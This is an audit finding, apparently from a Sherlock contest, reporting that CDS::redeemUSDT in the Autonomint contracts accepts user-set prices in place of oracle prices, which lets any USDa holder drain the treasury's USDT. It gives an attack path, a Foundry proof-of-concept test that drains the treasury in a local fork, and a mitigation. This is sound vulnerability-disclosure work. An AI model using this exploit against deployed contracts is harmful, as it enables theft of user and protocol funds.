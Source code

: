 Muscular Orchid Cyborg

High

# CDS::redeemUSDT will allow anyone to drain treasury USDT with price manipulation

### Summary

`CDS::redeemUSDT` does not use usdaPrice and usdtPrice from the oracle, but from the parameters `usdaPrice` and `usdtPrice` that a user can manipulate to their advantage and drain the treasury of its USDT.

[CDS::redeemUSDT](https://github.com/sherlock-audit/2024-11-autonomint/blob/0d324e04d4c0ca306e1ae4d4c65f0cb9d681751b/Blockchain/Blockchian/contracts/Core_logic/CDS.sol#L506)

### Root Cause

Oracle is not used for USDa and USDT prices in `CDS::redeemUSDT`. Prices should not be set by the user through the parameters.

### Internal pre-conditions

- User deposits in CDS
- User swaps USDa for USDT with `redeemUSDT`
- User has USDa

### External pre-conditions

None

### Attack Path

1. User deposits in CDS to receive USDa
2. User swaps USDa for USDT with `redeemUSDT`
3. User sets usdaPrice and usdtPrice parameters to drain entire treasury USDT
4. All USDT in treasury is drained

### Impact

All USDT in treasury can be drained by any user with USDa in CDS.

### PoC

- Insert the PoC in `borrowing.t.sol`
- Run the test with `forge test --fork-url http://127.0.0.1:8545 --mt testUserCanManipulatePricesInRedeemUSDT -vvvv`

```javascript
function testUserCanManipulatePricesInRedeemUSDT() public {
        // Treasury and User minted tokens for testing vulnerability
        contractsA.usdt.mint(address(contractsA.treasury), 10000000000);
        contractsA.usda.mint(address(USER),5000000000);

        // User approves CDS and redeems USDa for USDT with manipulated prices
        vm.startPrank(USER);
        contractsA.usda.approve(address(contractsA.cds), 5000000000);
        contractsA.cds.redeemUSDT{value: globalFee3.nativeFee}(1, 10000000000, 1);
        vm.stopPrank();

        // User drains entire treasury with just one USDa amount since 1 USDa = 1e10 USDT as seen in set parameters
        // User USDT balance is 1e10 after redeem because of manipulated prices
        uint256 usdtBalanceAfterRedeem = contractsA.usdt.balanceOf(address(USER));
        assertEq(usdtBalanceAfterRedeem, 10000000000);
    }
```

### Mitigation

Use oracle prices for USDa price and USDT price in `CDS::redeemUSDT` instead of allowing the user to set the prices through the parameters `usdaPrice` and `usdtPrice`.